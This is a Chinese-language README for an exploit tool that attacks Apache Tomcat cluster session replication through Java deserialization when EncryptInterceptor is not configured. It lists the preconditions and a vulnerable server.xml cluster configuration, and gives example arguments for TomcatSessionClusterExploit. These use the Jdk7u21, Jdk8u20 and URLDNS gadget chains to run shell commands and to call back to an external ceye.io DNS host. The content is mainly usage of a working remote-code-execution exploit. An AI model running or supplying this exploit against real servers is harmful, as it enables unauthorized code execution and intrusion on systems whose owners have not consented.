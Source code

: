### exp
利用工具：[tomcat-cluster-session-sync-exp](https://github.com/threedr3am/tomcat-cluster-session-sync-exp)

### sync-session-bug

这是一个tomcat使用了自带session同步功能时，不安全的配置（没有使用EncryptInterceptor）导致存在的反序列化漏洞，通过精心构造的数据包，
可以对使用了tomcat自带session同步功能的服务器进行攻击。

### 条件：
1. tomcat启用了session同步，没有配置EncryptInterceptor
2. jdk版本低于jdk8u20、jdk7u21（不知道有没有错）
3. 同步端点可访问（一般是内网）

### tomcat-session同步配置
（conf/server.xml）：
```
<Server>
    ...
    
    <Service>
        ...
        
        <Engine>
            ...
            
            <Cluster className="org.apache.catalina.ha.tcp.SimpleTcpCluster"
                    channelSendOptions="6">
            
                    <Manager className="org.apache.catalina.ha.session.BackupManager"
                      expireSessionsOnShutdown="false"
                      notifyListenersOnReplication="true"
                      mapSendOptions="6"/>
            
            
                    <Channel className="org.apache.catalina.tribes.group.GroupChannel">
                      <Membership className="org.apache.catalina.tribes.membership.McastService"
                        address="228.0.0.4"
                        port="45564"
                        frequency="500"
                        dropTime="3000"/>
                      <Receiver className="org.apache.catalina.tribes.transport.nio.NioReceiver"
                        address="123.123.123.123"
                        port="5000"
                        selectorTimeout="100"
                        maxThreads="6"/>
            
                      <Sender className="org.apache.catalina.tribes.transport.ReplicationTransmitter">
                        <Transport className="org.apache.catalina.tribes.transport.nio.PooledParallelSender"/>
                      </Sender>
                    </Channel>
            
                    <Valve className="org.apache.catalina.ha.tcp.ReplicationValve"
                      filter=".*\.gif;.*\.js;.*\.jpg;.*\.png;.*\.htm;.*\.html;.*\.css;.*\.txt;"/>
            
                    <Deployer className="org.apache.catalina.ha.deploy.FarmWarDeployer"
                      tempDir="/tmp/war-temp/"
                      deployDir="/tmp/war-deploy/"
                      watchDir="/tmp/war-listen/"
                      watchEnabled="false"/>
            
                    <ClusterListener className="org.apache.catalina.ha.session.ClusterSessionListener"/>
            </Cluster>
        </Engine>
  </Service>
</Server>
```

### 使用

运行TomcatSessionClusterExploit.main

参数，例：

```
//        args = new String[] {"127.0.0.1", "5000", "Jdk7u21" ,"/bin/bash", "-c", "touch /tmp/11111"};
//        args = new String[] {"127.0.0.1", "5000", "Jdk8u20" ,"/bin/bash", "-c", "touch /tmp/11111"};
//        args = new String[] {"127.0.0.1", "5000", "Jdk8u20" ,"/bin/bash", "-c", "/System/Applications/Calculator.app/Contents/MacOS/Calculator"};
//        args = new String[] {"127.0.0.1", "5000", "URLDNS", "http://tomcat.yqzf33.ceye.io"};
```